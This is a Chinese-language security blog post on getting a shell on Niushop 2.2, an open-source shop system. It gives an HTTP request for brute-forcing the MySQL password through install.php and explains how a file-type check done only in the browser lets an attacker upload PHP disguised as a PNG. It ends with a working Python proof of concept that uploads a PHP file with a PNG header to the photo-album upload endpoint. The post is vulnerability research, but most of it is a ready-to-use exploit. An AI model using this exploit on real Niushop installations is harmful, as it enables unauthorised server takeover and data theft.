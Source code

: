 ```yaml
---
title: "Niushop最新版 Getshell"
date: 2019-01-07T15:37:37+08:00
categories: ['代码审计']
tags: ['getshell','php']
---
```

Niushop开源商城采用thinkphp5.0+MySQL开发语言开发,完全开源商城系统,可以用于企业,个人建立自己的网上免费商城,支持开源微信商城,开源小程序,开源新零售。
<!--more-->
下载链接：http://www.niushop.com.cn/download.html
Version：单商户 2.2

### 安装爆破MySQL密码

```http
GET /niushop/install.php?action=true&dbserver=127.0.0.1&dbpassword=root2&dbusername=root&dbname=niushop_b2c HTTP/1.1
Host: 127.0.0.1
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
Referer: http://127.0.0.1/niushop/install.php?refresh
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: action=db
Connection: close


```

![](https://y4er.com/img/uploads/20190509162868.jpg)

爆破成功返回1，密码错误返回0

### getshell

![](https://y4er.com/img/uploads/20190509165779.jpg)

上传图片只做了前端校验，抓包改后缀即可绕过。

对文件内容做了检查，文件大小不能过大或过小，合成马最好放到中间。

请求包截图，删除不必要的参数仍旧能够上传。

![](https://y4er.com/img/uploads/20190509163650.jpg)

所以导致**前台getshell**

### PoC

```python
import requests

session = requests.Session()

paramsGet = {"s":"/wap/upload/photoalbumupload"}
paramsPost = {"file_path":"upload/goods/","album_id":"30","type":"1,2,3,4"}
paramsMultipart = [('file_upload', ('themin.php', "\x89PNG\r\n\x1a\n\x00\x00\x00\rIHDR\x00\x00\x00\x01\x00\x00\x00\x01\x08\x06\x00\x00\x00\x1f\x15\xc4\x89\x00\x00\x00\x0bIDAT\x08\x99c\xf8\x0f\x04\x00\x09\xfb\x03\xfd\xe3U\xf2\x9c\x00\x00\x00\x00IEND\xaeB`\x82<? php phpinfo(); ?>", 'application/octet-stream'))]
headers = {"Accept":"application/json, text/javascript, */*; q=0.01","X-Requested-With":"XMLHttpRequest","User-Agent":"Mozilla/5.0 (Android 9.0; Mobile; rv:61.0) Gecko/61.0 Firefox/61.0","Referer":"http://127.0.0.1/index.php?s=/admin/goods/addgoods","Connection":"close","Accept-Language":"en","Accept-Encoding":"gzip, deflate"}
cookies = {"action":"finish"}
response = session.post("http://127.0.0.1/index.php", data=paramsPost, files=paramsMultipart, params=paramsGet, headers=headers, cookies=cookies)

print("Status code:   %i" % response.status_code)
print("Response body: %s" % response.content)
```


参考链接

1. https://xz.aliyun.com/t/3767